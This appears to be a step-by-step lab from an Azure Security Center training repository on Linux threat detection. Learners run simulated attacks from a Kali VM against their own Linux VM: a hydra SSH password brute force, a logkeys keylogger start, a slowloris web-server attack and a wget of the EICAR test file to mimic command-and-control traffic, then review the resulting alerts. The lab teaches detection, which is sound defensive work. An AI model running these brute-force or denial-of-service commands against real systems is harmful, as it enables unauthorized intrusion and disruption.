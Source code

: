 ﻿# 05 - Linux Detections
##### Estimated lab time: 25 minutes
*The following lab is based on the* <a href="https://gallery.technet.microsoft.com/Azure-Security-Center-0ac8a5ef" target="_blank">Linux Detections playbook</a> *written by Yuri Diogenes. This playbook provides a more comphrensive explanation than is covered in this lab*<br>

In this lab we will explore the new Linux detection's in ASC by executing attacks in a Kali Linux VM that you are going to deploy. You will connect to your deployed Linux VM (Linux-0) leveraging SSH. In case you don't have a SSH client installed, you can install the free edition of MobaXterm <a href="https://mobaxterm.mobatek.net/download.html" target="_blank">here</a>.<br>

#### 1 - Create a Kali Linux VM
***Note**: time to create the Kali Linux VM is approx 5 minutes. Make sure to add a port that enables you to connect.*
1. In the Azure portal, click on **Create a resource** and search for **Kali Linux** and **create** the VM

![alt text](https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/05%20-%20Linux%20Detections/Screenshots/kali_marketplace.png)

***Note**: you don't have to wait until the deployment is complete. Proceed with the next exercise*

#### 2 - Create Linux users 
1. Connect to your Linux VM (Linux-0) that you have deployed earlier (note: not the Kali VM), using your favorite SSH tool
2. Create 5 users with the names user1, user2, user3, user4, user5, by leveraging the following Linux command <br>
***Note**: Replace "userName" by user1, user2, etc.<br> Set the password to "mypassword1" for user1, "mypassword2" for user2, etc.*

```powershell
sudo adduser <userName>
```


#### 4 - Executing a brute force attack
1. Connect to the Kali Linux VM with SSH (ensure that your VM deployment in step 1 was successful)
2. Navigate to the folder **/usr/share/wordlists**
3. Upload the **<a href="https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/05%20-%20Linux%20Detections/Files/lab_users.txt" target="_blank">lab_users.txt</a>** and **<a href="https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/05%20-%20Linux%20Detections/Files/lab_pass.txt" target="_blank">lab_pass.txt</a>** files to this folder by executing:
```text
sudo wget https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/05%20-%20Linux%20Detections/Files/lab_users.txt
```
and
```text
sudo wget https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/05%20-%20Linux%20Detections/Files/lab_pass.txt
```
4. Copy the IP address from the Linux Victim VM that you have deployed earlier. We are going to brute force attack this VM
5.  Type the command below in your Kali VM, and replace "**IP**" with **yourLinuxVM** public IP address
```text
hydra -I -L lab_users.txt -P lab_pass.txt <IP> -t 4 ssh
```
6.  Wait until it finishes, and the result should show you the username and the password that was found

#### 5 - Simulate capturing credentials and other useful information
1.  Run the command below in the Linux Victim VM to simulate an attacker that is trying to start logkeys to set up the system to capture credentials and other useful information: 
```text
logkeys --start
```
***Note**:<br> Ignore the error message if you don't have logkeys installed. Security Center will detect this attack anyway*

#### 6 - Simulate an attack against a web server
Assuming that the attacker has already performed some internal recon using nmap, you are going to simulate an attack against a web server
1. Run the command below in the Linux Victim VM:
```text
perl slowloris.pl -dns server.contoso.com
```
***Note**:<br> Ignore the error message if you don't have this script on your system. Security Center will detect this attack anyway*

#### 7 - Command & Control (C2) simulation
Attackers usually will communicate with command and control (C2) to transfer data or to download more  malicious software.
For this example, you will download the EICAR malware test file using WGET for the IP address.  The commands that follows must be executed in the Linux Victim VM:<br><br>

1. First, obtain the IP address of the target:
```text
nslookup eicar.com 
```
2. Now replace the XXX.XXX.XXX.XXX on the command below with the IP obtained from nslookup: 
```text
wget http://XXX.XXX.XXX.XXX/download/eicar.com
```
***Note**:<br>  if you have issues download eicar.com, try download eicar.txt (same command line, just change the extension).*

#### 8 - Review Security Center alerts
1. Navigate to the **Security Center>Security Alerts** blade (under Threat Protection)
2.  Organize the alerts by date by clicking on the Date column, and review the alerts that were generated during this lab, it should look similar like this:

![alt text](https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/05%20-%20Linux%20Detections/Screenshots/Security_incident_detected_Linux.png)

![alt text](https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/05%20-%20Linux%20Detections/Screenshots/Security_incident_detected_Linux2.png)

<br><br>
### Continue with the next lab
06 - Logic Apps integration, click <a href="https://github.com/tianderturpijn/Azure-Security-Center/tree/master/Labs/06%20-%20Logic%20App%20integration" target="_blank">here</a>